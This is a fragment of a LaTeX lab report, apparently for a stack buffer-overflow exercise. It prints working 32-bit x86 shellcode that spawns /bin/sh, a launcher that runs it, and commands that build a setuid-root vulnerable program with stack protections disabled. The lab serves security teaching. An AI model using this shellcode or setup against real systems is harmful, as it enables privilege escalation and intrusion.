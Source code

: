 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{enumerate}
\begin{verbatim}
/*A program that creates a file containing code for launching 
shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
	
const char code[] =
"\x31\xc0"             /* xorl    %eax,%eax              */
"\x50"                 /* pushl   %eax                   */
"\x68""//sh"           /* pushl   $0x68732f2f            */
"\x68""/bin"           /* pushl   $0x6e69622f            */
"\x89\xe3"             /* movl    %esp,%ebx              */
"\x50"                 /* pushl   %eax                   */
"\x53"                 /* pushl   %ebx                   */
"\x89\xe1"             /* movl    %esp,%ecx              */
"\x99"                 /* cdq                            */
"\xb0\x0b"             /* movb    $0x0b,%al              */
"\xcd\x80"             /* int     $0x80                  */
;
	
int main(int argc, char **argv)
{
	char buf[sizeof(code)];
	strcpy(buf, code);
	((void(*)( ))buf)( );
} 
	\end{verbatim}
	We compile the code with the \texttt{execstack} switch on. \begin{verbatim}
	$ gcc -z execstack -o call_shellcode call_shellcode.c\end{verbatim}
	\newpage
	\item \textbf{Vulnerable Program} \begin{par}We prepare the program with the stack buffer overflow vulnerability and compile in root mode. We turn off  the non-executable stack and StackGuard protections.\begin{verbatim}
		$ su
		# gcc -o stack -z execstack -fno-stack-protector stack.c -g
		# chmod 4755 stack
		# exit
		\end{verbatim} 
		We take note of the following two pointers in the code above. Firstly, we use the \texttt{-g} switch to add debugging information for easier reference to the memory addresses later (Not used in the lab reference sheet). Secondly, 4755 sets the execution of the program to use root privileges (u+s) as we want root to be the owner of the file.\end{par}
\end{enumerate}
\newpage
\end{document}
